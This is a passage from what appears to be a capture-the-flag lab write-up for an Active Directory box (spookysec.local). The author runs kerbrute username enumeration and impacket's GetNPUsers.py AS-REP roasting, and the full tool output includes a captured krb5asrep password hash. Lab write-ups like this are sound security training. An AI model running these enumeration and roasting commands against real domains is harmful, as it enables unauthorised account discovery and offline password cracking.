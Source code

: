 I ran kerbrute and got a big list of valid usernames.

{%highlight text%}
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local -t 100 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/15/21 - Ronnie Flathers @ropnop

2021/04/15 05:36:49 >  Using KDC(s):
2021/04/15 05:36:49 >  	spookysec.local:88

2021/04/15 05:36:49 >  [+] VALID USERNAME:	 james@spookysec.local
2021/04/15 05:36:50 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2021/04/15 05:36:50 >  [+] VALID USERNAME:	 James@spookysec.local
2021/04/15 05:36:50 >  [+] VALID USERNAME:	 robin@spookysec.local
2021/04/15 05:36:52 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2021/04/15 05:36:53 >  [+] VALID USERNAME:	 administrator@spookysec.local
2021/04/15 05:36:55 >  [+] VALID USERNAME:	 backup@spookysec.local
2021/04/15 05:36:56 >  [+] VALID USERNAME:	 paradox@spookysec.local
2021/04/15 05:37:03 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2021/04/15 05:37:10 >  [+] VALID USERNAME:	 Robin@spookysec.local
2021/04/15 05:37:23 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2021/04/15 05:37:56 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2021/04/15 05:38:04 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2021/04/15 05:38:36 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2021/04/15 05:38:46 >  [+] VALID USERNAME:	 ori@spookysec.local
2021/04/15 05:39:02 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
2021/04/15 05:39:54 >  Done! Tested 73317 usernames (16 valid) in 184.867 seconds

{%endhighlight%}

Next up, we try to get extract information from some of these accounts. What we are about to do is known as AS-REP roasting. Here is my best understanding:

`In active directory there is an option which allows users to request user data without any authentication. This was allowed because the data returned is encrypted using the users password. **But** we can use some part of the returned encrypted data ( a TGT to be exact) to bruteforce for a password using a wordlist.`

To get the accounts which have this setting we use the impacket's GetNPUsers.py script. To get the user accounts I just copied the output of kerbrute and did some bash magic.

`$ cat kerbruteOutput | cut -d' ' -f8 > validUsers.txt`

Next we use the GetNPUsers script.

{%highlight text%}
GetNPUsers.py -usersfile validUsers spookysec.local/svc-admin 
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:f7abb51f87ed3e343af9c0f9c7b63241$682507edb4e7f32c9f1031f15f7300112adba603d2eaf94a4eda89d13ae2c5479c99fd7f6db466887c5840a48bb760178adba5f203cb4caa0770e667c53e70defafdc10a3927842be22aa5281006446dd6d55ce458dbc45574c6194aed76a38101eb15458ca534742939f4650cb9f24be4e9055a66edb005eab7b13190f8e18f63d2daa2a785cca7f1aa1f5e256b262078ce370897d6d9ad12994f32b775ca39e3f1b6e2c4a873eb7356b1eca16e4f2e12591c0a0741519c01d76788d3c890c73e7aaa35ae3288181f6161d998d97a0b5e520025a2dcb1af8853b19784f5eb8d3b570840d7c07892c2e7083bc5353bb49389
[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set